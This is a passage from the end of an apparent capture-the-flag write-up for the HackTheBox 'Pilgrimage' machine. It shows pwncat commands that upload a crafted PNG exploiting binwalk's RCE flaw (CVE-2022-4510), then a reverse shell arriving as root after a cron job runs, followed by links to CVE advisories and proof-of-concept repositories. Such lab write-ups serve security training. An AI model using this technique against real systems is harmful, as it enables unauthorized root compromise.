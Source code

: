 ```bash
(remote) emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$
(local) pwncat$ upload ../exploit/RCE/binwalk_exploit.png
```

As soon as the cron job executes, I get a shell as the root user.

```bash
> pc -lp 9005
[18:08:59] Welcome to pwncat 🐈!          __main__.py:164
[18:23:50] received connection from 10.129.111.11:55858                             bind.py:84
[18:23:52] 10.129.111.11:55858: registered new host w/ db                       manager.py:957
(local) pwncat$
(remote) root@pilgrimage:/root/quarantine# id
uid=0(root) gid=0(root) groups=0(root)
```

**Pwned!!**



---

# Related Links

- [ImageMagick: The hidden vulnerability behind your online images - Metabase Q](https://web.archive.org/web/20230331125510/https://www.metabaseq.com/imagemagick-zero-days/)
- [HackerOne | Report #1858574 - [CVE-2022-44268] Arbitrary Remote Leak via ImageMagick | HackerOne](https://hackerone.com/reports/1858574)
- [possible DoS @ stdin (OCE-2022-70); possible arbitrary file leak (OCE… · ImageMagick/ImageMagick@05673e6](https://github.com/ImageMagick/ImageMagick/commit/05673e63c919e61ffa1107804d1138c46547a475)
- [voidz0r/CVE-2022-44268: A PoC for the CVE-2022-44268 - ImageMagick arbitrary file read](https://github.com/voidz0r/CVE-2022-44268)
- [Security Advisory: Remote Command Execution in binwalk - ONEKEY](https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk/)
- [Serious security hole plugged in infosec tool binwalk | The Daily Swig](https://portswigger.net/daily-swig/serious-security-hole-plugged-in-infosec-tool-binwalk)
- [Directory Traversal in binwalk | CVE-2022-4510 | Snyk](https://security.snyk.io/vuln/SNYK-PYTHON-BINWALK-3250305)
- [CVE-2022-4510/RCE_Binwalk.py at main · electr0sm0g/CVE-2022-4510](https://github.com/electr0sm0g/CVE-2022-4510/blob/main/RCE_Binwalk.py)
